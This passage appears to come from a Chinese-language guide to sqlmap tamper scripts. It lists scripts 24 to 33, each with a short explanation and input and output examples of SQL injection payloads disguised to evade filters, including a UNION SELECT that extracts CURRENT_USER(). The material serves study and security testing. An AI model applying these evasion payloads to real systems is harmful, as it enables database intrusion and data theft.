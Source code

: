     (24) space2morehash.py 没看出来和上面那个有什么区别。。 
    Requirement: 
    MySQL >= 5.1.13 

    (25) space2mssqlblank.py 以随机空白字符替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT%08id%02FROM%0Fusers 
    Requirement: 
    Microsoft SQL Server 

    (26) space2mssqlhash.py 以单行注释”#”和新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1%23%0A9227=9227 
    Requirement: 
    MSSQL 
    MySQL 

    (27) space2mysqlblank.py 以随机空白字符替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT%0Bid%0BFROM%A0users 
    Requirement: 
    MySQL 

    (28) space2mysqldash.py 以单行注释和新行替换空格 
    Example: 
    Input: 1 AND 9227=9227 
    Output: 1--%0AAND--%0A9227=9227 
    Requirement: 
    MySQL 
    MSSQL 

    (29) space2plus.py 以”+”替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT+id+FROM+users 

    (30) space2randomblank.py 随机空白字符替换空格 
    Example: 
    Input: SELECT id FROM users 
    Output: SELECT\rid\tFROM\nusers 

    (31) unionalltounion.py 以”union all”替换”union” 
    Example: 
    Input: -1 UNION ALL SELECT 
    Output: -1 UNION SELECT 

    (32) unmagicquotes.py 以”%bf%27”替换单引号，并在结尾添加注释”--” 
    Example: 
    Input: 1' AND 1=1 
    Output: 1%bf%27 AND 1=1--%20 

    (33)versionedkeywords.py 对不是函数的关键字条件注释 
    Example: 
    Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# 
    Output:  1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#
    Requirement: 
    MySQL 
